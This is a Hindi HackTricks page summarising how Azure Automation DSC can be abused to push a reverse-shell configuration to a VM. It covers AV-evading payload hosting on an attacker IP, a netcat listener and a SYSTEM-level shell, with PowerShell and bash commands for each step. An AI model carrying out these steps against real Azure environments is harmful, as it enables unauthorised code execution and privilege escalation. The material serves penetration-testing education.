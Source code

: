 # Az - राज्य कॉन्फ़िगरेशन RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [SUBSCRIPTION PLANS](https://github.com/sponsors/carlospolop) की जांच करें!
* [आधिकारिक PEASS & HackTricks swag](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [NFTs](https://opensea.io/collection/the-peass-family) संग्रह, The PEASS Family, खोजें
* **Join the** 💬 [Discord group](https://discord.gg/hRep4RUj7f) या [telegram group](https://t.me/peass) या हमें **Twitter** पर फ़ॉलो करें 🐦 [@hacktricks_live](https://twitter.com/hacktricks_live)।
* **HackTricks** और **HackTricks Cloud** github repos में PRs सबमिट करके अपने हैकिंग ट्रिक्स साझा करें।

</details>

**पूरी पोस्ट देखें: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### दूरस्थ सर्वर (C2) इंफ्रास्ट्रक्चर तैयारी और चरणों का सारांश

#### अवलोकन
इस प्रक्रिया में एक दूरस्थ सर्वर इंफ्रास्ट्रक्चर को सेटअप करने की शामिलता है जो एक संशोधित Nishang `Invoke-PowerShellTcp.ps1` पेलोड, जिसे `RevPS.ps1` नाम से जाना जाता है, होस्ट करने के लिए डिज़ाइन किया गया है ताकि विंडोज डिफेंडर को छलना कर सके। पेलोड को एक Kali Linux मशीन से IP `40.84.7.74` का उपयोग करके एक सरल Python HTTP सर्वर से प्रदान किया जाता है। ऑपरेशन कई चरणों में निष्पादित किया जाता है:

#### चरण 1 — फ़ाइलें बनाएं
- **आवश्यक फ़ाइलें:** दो PowerShell स्क्रिप्ट की आवश्यकता है:
1. `reverse_shell_config.ps1`: एक इच्छित स्थिति कॉन्फ़िगरेशन (DSC) फ़ाइल जो पेलोड को लाती है और निष्पादित करती है। यह [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) से प्राप्त की जा सकती है।
2. `push_reverse_shell_config.ps1`: एक स्क्रिप्ट कॉन्फ़िगरेशन को वीएम पर प्रकाशित करने के लिए, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) पर उपलब्ध है।
- **कस्टमाइज़ेशन:** इन फ़ाइलों में चरणों और पैरामीटरों को उपयोगकर्ता के विशिष्ट वातावरण के अनुसार अनुकूलित किया जाना चाहिए, संसाधन नाम, फ़ाइल पथ, और सर्वर/पेलोड पहचानकर्ता समाविष्ट करना।

#### चरण 2 — कॉन्फ़िगरेशन फ़ाइल को ज़िप करें
- `reverse_shell_config.ps1` को `.zip` फ़ाइल में संकुचित किया जाता है, जिससे यह तैयार हो जाता है अज़्यूर स्टोरेज अकाउंट में स्थानांतरण के लिए।
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### चरण 3 — संग्रह संदर्भ सेट करें और अपलोड करें
- ज़िप की गई कॉन्फ़िगरेशन फ़ाइल को Azure के Set-AzStorageBlobContent cmdlet का उपयोग करके एक पूर्वनिर्धारित Azure स्टोरेज कंटेनर, azure-pentest में अपलोड किया जाता है।
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### चरण 4 — काली बॉक्स की तैयारी
- काली सर्वर एक GitHub रिपॉजिटरी से RevPS.ps1 पेलोड डाउनलोड करता है।
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
#### कदम 5 — कॉन्फ़िगरेशन फ़ाइल प्रकाशित करें
- कॉन्फ़िगरेशन फ़ाइल को निष्क्रिय किया जाता है, जिससे विंडोज VM पर निर्दिष्ट स्थान पर रिवर्स-शैल स्क्रिप्ट डिप्लॉय होता है।

#### कदम 6 — पेलोड होस्ट करें और लिस्टनर सेटअप करें
- एक Python SimpleHTTPServer शुरू किया जाता है ताकि पेलोड होस्ट किया जा सके, साथ ही एक Netcat लिस्टनर भी सेटअप किया जाता है ताकि आने वाली कनेक्शन्स को कैप्चर किया जा सके।
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- निर्धारित कार्य द्वारा पेलोड निष्पादित किया जाता है, सिस्टम स्तर की विशेषाधिकार प्राप्त किए जाते हैं।

#### निष्कर्ष

इस प्रक्रिया के सफल निष्पादन से आगे कई संभावनाएं खुलती हैं, जैसे क्रेडेंशियल डंपिंग या हमले को कई वीएम पर विस्तारित करना। यह मार्गदर्शिका आगे की शिक्षा और रचनात्मकता को प्रोत्साहित करती है आज़्यूर ऑटोमेशन डीएससी में।

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में पीआर जमा करके।

</details>
